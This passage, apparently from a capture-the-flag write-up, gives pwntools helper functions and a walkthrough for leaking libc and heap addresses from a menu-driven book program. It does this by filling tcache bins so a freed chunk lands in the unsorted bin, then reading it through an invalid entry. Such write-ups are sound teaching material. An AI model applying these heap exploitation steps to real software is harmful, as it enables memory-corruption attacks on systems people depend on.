 ```python
    io.sendline(f"{num_pages}".encode())
    io.recvuntil(b"desc len:")
    io.sendline(f"{desc_len}".encode())


def edit_book(idx,title,num_pages,desc,desc_len):
    io.recvuntil(b'>')
    io.sendline(b'2')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'title:')
    io.send(title)
    io.recvuntil(b'num page:')
    io.sendline(f"{num_pages}".encode())
    io.recvuntil(b"desc len:")
    io.sendline(f"{desc_len}".encode())
    io.recvuntil(b'desc:')
    io.send(desc)

def delete_book(idx):
    io.recvuntil(b'>')
    io.sendline(b'4')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())

def leak(idx):
    io.recvuntil(b'>')
    io.sendline(b'3')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'description : ')
    return io.recvline()
```


First we need to leak libc and the heap. We can do this by filling up Tcache bins with a size of more than 0x90. Once tcache bins are filled up, and we free a chunk of that size, it will automatically be put into the unsorted bin. The unsorted bin contains a ptr to libc.

Using our previously mentioned primitive we:

1. Allocate 8 books with a desc_len of 0x98
2. Free them all
3. Alloc 7 books again and one invalid book.
4. The invalid book now contains a ptr to the last freed desc chunk, which is our ptr to libc.

During this, we can also leak heap in the same manner:

Libc leak:
```python
for i in range(0,8):
    create_book(i,b'abcd',20,chr(0x41+i).encode()*0x98,0x98)

for i in range(0,8):
    if i == 3:
        continue
    delete_book(i)
delete_book(3)

for i in range(0,7):
    create_book(i,b'abcd',20,b'\n',0x98)
create_invalid_book(14,b'abcd',20,-1)

libcleak = u64(leak(14)[:-1].ljust(8,b'\x00'))
```
